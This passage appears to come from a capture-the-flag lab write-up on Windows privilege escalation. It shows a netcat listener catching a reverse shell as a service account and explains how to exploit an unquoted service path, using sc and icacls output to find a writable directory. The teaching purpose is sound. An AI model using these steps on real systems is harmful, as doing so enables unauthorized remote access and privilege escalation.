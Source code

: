 **5. Catch the reverse shell** 

```bash
root@ip-10-10-213-107:~# rlwrap nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.114.216 49922
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr1

C:\Windows\system32>

```

The service restarts, running the payload with the service account's privileges.

### **Unquoted Service Paths**

Unquoted service paths in Windows can be exploited to escalate privileges. When a service's executable path is **unquoted and contains spaces**, Windows Service Control Manager (SCM) searches for the executable in a specific order, splitting the path at each space.

Example: **`C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`** is interpreted as:

**`C:\MyPrograms\Disk.exe`** → **`C:\MyPrograms\Disk Sorter.exe`** → **`C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.ex`**

```bash
C:\Users\thm-unpriv> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

If an attacker can place a malicious executable in a writable directory the service will execute it instead of the intended binary.

```bash
C:\Users\thm-unpriv>icacls C:\MyPrograms
C:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
